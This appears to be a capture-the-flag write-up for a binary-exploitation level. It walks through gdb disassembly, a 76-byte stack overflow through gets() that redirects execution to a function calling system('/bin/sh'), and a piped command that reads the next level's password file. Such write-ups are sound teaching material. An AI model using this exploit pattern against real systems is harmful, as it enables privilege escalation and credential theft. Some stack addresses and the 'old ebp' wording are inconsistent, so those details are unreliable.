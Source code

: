 # Step 1 : ASM analysis

## Functions

```
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
...
```

`main()` and `run()` are the 2 functions we need to examine here.

## Function main (0x08048480)

```
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
```

Let's check what the function call `gets()` does.

From `man gets`

```
DESCRIPTION
       Never use this function.

       gets() reads a line from stdin into the buffer pointed to by s
       until either a terminating newline or EOF, which it replaces with
       a null byte ('\0').  No check for buffer overrun is performed
       (see BUGS below).
```

So this is what we need to exploit. We noticed that `main()` is not calling run.
We want to create a buffer overflow and change the value of the old `ebp` to the function `run()`'s address in order to run it.

```
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
```

We can get old `ebp` address on the stack at `[esp + 0x4]` (since `esp` is decremented after the push).

```
(gdb) x/2wx $esp
0xbffff728:	0x00000000	0xb7e454d3
```

Old `ebp` is store on the stack at the address `0xbffff72c`.

```
   0x08048486 <+6>:	sub    esp,0x50
```

`0x50` bytes are allocated on the stack for local variables.

```
(gdb) p $esp
$1 = (void *) 0xbffff720
```

New `esp` value is `0xbffff6d0`

```
   0x08048489 <+9>:	lea    eax,[esp+0x10]
```

This line says that the address of the pointer that wil be given as a parameter to the `gets()` function is `[esp + 0x10]` = `0xbffff730`

In order to calculate how many bytes we need to put in the buffer to reach old `ebp` address, we can substract it with the address of the buffer :

> 0xbffff72c - 0xbffff6d0 = 0x4c = 76

## Function run (0x08048444)

```
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
```

What's important in this one is that `system()` is called with the argument `/bin/sh` so, once again, we will be able to use that to open a shell with the user that has the permission on the file.

However `system()` isn't working like `execv()` :

> The exec() function replace the currently running process image when successful, no child is created (unless you do that yourself previously with fork()). The system() function does fork a child process and returns when the command supplied is finished executing or an error occurs.
> [:link:](<https://stackoverflow.com/questions/1697440/difference-between-system-and-exec-in-linux#:~:text=system()%20will%20execute%20the,fork()%20your%20process%20beforehand.>)

# Step 2 : Resolution

## 1 - Buffer overflow

We must input a string of 76 bytes plus the function `run()` address (0x08048444).

A way to do so is to use python with the `-c` flag to execute some code in a command:

`python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1`

It gives a segfault without printing "Good... Wait what?\n" which is supposed to happen if we get into the `run()` function.

When we have a closer look at the stack, we can see that the address is writen in little endian. (ref: http://myweb.usf.edu/~kevindennis/wcsc/bof.pdf)

`python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1`

This is more like it.

## 2 - Keeping the shell

Now we get into the `run()` function but we still can't access the shell.

We know that `system()` is opening a shell in an other process and will exit if the main parent process exit.

`(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1`

Here the `stdin` pipe will first send our malicious string to be read by the `gets()` function and then the same thing for the `cat` command but this time inside the new shell.
